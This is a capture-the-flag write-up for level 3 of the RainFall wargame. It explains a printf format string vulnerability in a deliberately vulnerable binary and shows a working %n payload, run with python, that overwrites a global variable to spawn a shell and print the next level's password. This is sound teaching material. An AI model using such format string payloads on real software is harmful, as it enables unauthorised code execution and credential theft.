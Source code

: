 # Level 3

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>

int m;

void v(void)
{
    char buffer[512];
    fgets(buffer, 512, stdin);
    printf(buffer);

    if (m == 64)
    {
        fwrite("Wait what?!\n", 1, 12, stdout);
        system("/bin/sh");
    }
}

int main(void)
{
    v();
}
```

Let's focus on the `v` function. It reads input using the `fgets` function, which is known to be safe due to its mechanism to limit the number of bytes read. However the `printf` function is known to be unsafe when user input is passed as the format argument, it's referred to as a format string vulnerability.
> You can read more about format string vulnerabilities [here](https://owasp.org/www-community/attacks/Format_string_attack).

We notice from the C code that we'll have to somehow write 64 bytes to the `m` variable to spawn a shell. We can do this by exploiting the format string vulnerability, thanks to the `%n` format specifier, which writes the number of bytes written so far to the corresponding argument. We'll make sure the corresponding argument is the `m` variable's address.

Before crafting our payload, we have to locate our input string on the stack and determine the address of `m`.

To locate our input string on the stack, we send a string with format specifiers, specifically the %x specifier, to printf. This specifier prints the next argument as a hexadecimal value. Since we don't pass any arguments to `printf`, it will print the values on the stack:
```bash
level3@RainFall:~$ python -c 'print("%x %x %x")' | ./level3
200 b7fd1ac0 b7ff37d0
```

To pinpoint our input string on the stack, we need to precede our %x format specifiers with a dummy string:

```bash
level3@RainFall:~$ python -c 'print("AAAA %x %x %x %x")' | ./level3
AAAA 200 b7fd1ac0 b7ff37d0 41414141
```

In this output, 41414141, the hexadecimal representation of 'AAAA', is found at the fourth position.

The assembly code reveals that the address of the m variable is 0x804988c.

We can then craft our payload:
```
address of m + padding + %n format specifier pointing to the fourth argument

"\x8c\x98\x04\x08" + "0"*(64-4) + "%4$n"

Since we need to write 64 into m, we write 64 characters (4 from the address of m and 60 from the "0" padding). 
Then, we employ the %n format specifier to record the count of bytes written so far into the fourth argument, which is m's address.
```

Let's execute our payload:
```bash
level3@RainFall:~$ (python -c 'print("\x8c\x98\x04\x08" + "0"*(64-4) + "%4$n")' && cat) | ./level3
�000000000000000000000000000000000000000000000000000000000000
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

We are now level4! Let's move on to the next level.

